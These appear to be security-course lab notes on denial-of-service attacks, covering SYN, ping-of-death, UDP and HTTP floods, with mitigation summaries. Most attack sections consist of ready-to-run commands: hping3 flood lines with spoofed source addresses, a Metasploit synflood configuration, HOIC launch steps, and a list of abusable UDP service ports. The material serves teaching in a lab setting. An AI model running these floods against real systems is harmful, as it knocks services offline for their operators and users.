 # 10 - DoS

## Module 10 - Denial-of-Service

## **SYN Flooding**

**SYN flooding** is a type of cyberattack that targets a server by overwhelming it with a flood of fake or incomplete connection requests (SYN packets). These requests are part of the 3-way handshake process used to establish a connection between a client and a server. In a SYN flood attack, the attacker sends a large number of SYN packets without completing the handshake, tying up the server's resources and preventing it from servicing legitimate connections.

This can lead to a denial of service (DoS) or distributed denial of service (DDoS) attack, causing the server to become unresponsive. Mitigation strategies include rate limiting, SYN cookies, and deploying intrusion detection and prevention systems.

### **Perform a SYN Flooding on a Target Host using hping3**

**Target:**

* Wireshark-\&gt;Ethernet

#### **Attacker**

* **hping3 -S \<Target IP> -a \<Spoofable IP> -p \<Port to flood> -flood**
  * **-S: Set the SYN flag**
  * **-a: Spoof the IP address**
  * **-p: Specify the destination port, e.g 22**
  * **--flood: Send a huge number of packets**

#### **Target**

* Check wireshark

#### **Attacker (Perform PoD)**

* **hping3 -d 65538 -S -p 21 –flood \<Target IP>**
  * **-d: Specify data size**
  * **-S: Set the SYN flag**

#### **Attacker (Perform UDP application layer flood attack)**

* nmap -p 139 10.10.10.19 (check service)
* **hping3 -2 -p 139 –flood \<Target IP>**
  * **-2: Specify UDP mode**

### **SYN Flooding using Metasploit**

```bash
nmap -p 21 10.10.10.10 #check open ports or specific port

msfconsole -q #start msfconsole
use auxiliary/dos/tcp/synflood #SYN Flooding module
set RHOST <Target IP>
set RPORT 21
set SHOST <Spoofed IP Address> #Our fake IP 
set TIMEOUT 20000 and press Enter

#open Wireshark and View Flood attack on victim via Wireshark, use filter:
tcp.port=21
```

## HTTP Flooding Attack

**HTTP flood attack**, is a type of cyberattack aimed at overwhelming a web server by sending a massive volume of HTTP requests. These requests often mimic legitimate user interactions with a website, such as GET or POST requests for web pages or resources. The intent is to consume the server's resources, exhaust its processing capacity, and cause it to become slow or unresponsive, resulting in a denial of service (DoS) situation.

Attackers may employ botnets or distributed networks of compromised devices to intensify the attack. Defenses against HTTP flooding include rate limiting, traffic analysis, and content delivery networks (CDNs) to absorb excess traffic and protect the target server.

### HTTP Flooding Attack using HOIC (High Orbit Ion Cannon)

* Open HOIC.
* Set threads = 20
* Click + to add target
* Enter Target http://\<Target IP> -> Power = High -> Booster = GenericBoost.hoic
* Click **FIRE TEH LAZER!** to launch attack

#### **Other UDP-based applications and their ports**

* CharGen UDP Port 19
* SNMPv2 UDP Port 161
* QOTD UDP Port 17
* RPC UDP Port 135
* SSDP UDP Port 1900
* CLDAP UDP Port 389
* TFTP UDP Port 69
* NetBIOS UDP Port 137,138,139
* NTP UDP Port 123
* Quake Network Protocol UDP Port 26000
* VoIP UDP Port 5060
